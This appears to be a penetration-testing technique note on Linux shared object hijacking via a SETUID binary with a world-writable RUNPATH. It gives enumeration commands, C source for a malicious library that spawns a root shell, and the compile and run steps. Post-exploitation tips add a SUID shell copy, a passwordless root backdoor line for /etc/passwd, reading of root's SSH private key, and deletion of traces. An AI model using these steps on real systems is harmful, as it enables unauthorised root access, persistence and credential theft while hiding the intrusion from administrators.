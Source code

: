 ### 1. Technique Name:

Shared Object Hijacking
### 2. Summary:

Shared Object Hijacking is a Linux privilege escalation technique where an attacker abuses misconfigured shared library loading paths in binaries—especially SETUID binaries—to inject and execute malicious code. When a binary is configured to load libraries from a writable directory (e.g., via `RUNPATH` or `rpath`), an attacker can place a crafted `.so` file that overrides the legitimate dependency and executes code as the binary’s owner, often root.
### 3. Conditions / Requirements:

- Target binary is SETUID root    
- Binary loads a non-standard library (e.g., `libshared.so`)
- The loading path (e.g., `/development`) is world-writable
- Attacker can determine or guess the symbol name (function) being called from the library
### 4. Enumeration Steps:
#### A. Identify SETUID binaries:

```bash
find / -perm -4000 -type f 2>/dev/null
```
#### B. List linked libraries of the target binary:

```bash
ldd <binary>
```

Example:

```bash
ldd payroll
```

Look for non-standard libraries (e.g., `/development/libshared.so`).
#### C. Check for custom RUNPATH:

```bash
readelf -d <binary> | grep PATH
```

Example:

```bash
readelf -d payroll | grep PATH
```
#### D. Verify write permissions on the custom path:

```bash
ls -ld /development
```

Should be writable (e.g., `drwxrwxrwx`).
#### E. Check for undefined symbols:

Run the binary and look for errors like:

```bash
symbol lookup error: ./binary: undefined symbol: dbquery
```
### 5. Exploitation Steps:
#### A. Write a malicious shared object:

```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void dbquery() {
    printf("Malicious library loaded\n");
    setuid(0);
    system("/bin/sh -p");
}
```
#### B. Compile the malicious library:

```bash
gcc src.c -fPIC -shared -o /development/libshared.so
```
#### C. Execute the vulnerable binary:

```bash
./payroll
```

If successful, it will display:

```
Malicious library loaded
# id
uid=0(root) gid=1000(<your user>) groups=1000(<your group>)
```
### 6. Post-Exploitation Tips:

- Drop a SUID shell:    

```bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```

- Add a backdoor user:

```bash
echo 'attacker::0:0::/root:/bin/bash' >> /etc/passwd
```

- Exfiltrate files (e.g., `/etc/shadow`, SSH keys):

```bash
cat /root/.ssh/id_rsa
```

- Clean up traces:

```bash
rm /development/libshared.so
```
### 7. Example / Notes:

Target binary:

```bash
-rwsr-xr-x 1 root root 16728 payroll
```

Linked libraries:

```bash
ldd payroll

libshared.so => /development/libshared.so
```

Vulnerable RUNPATH:

```bash
readelf -d payroll | grep PATH

Library runpath: [/development]
```

Undefined function hint:

```bash
./payroll
symbol lookup error: ./payroll: undefined symbol: dbquery
```

Malicious Library Compilation:

```bash
gcc src.c -fPIC -shared -o /development/libshared.so
```

Execution:

```bash
./payroll
Malicious library loaded
# id
uid=0(root)
```

This confirms privilege escalation via Shared Object Hijacking.
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #Shared_Object_Hijacking
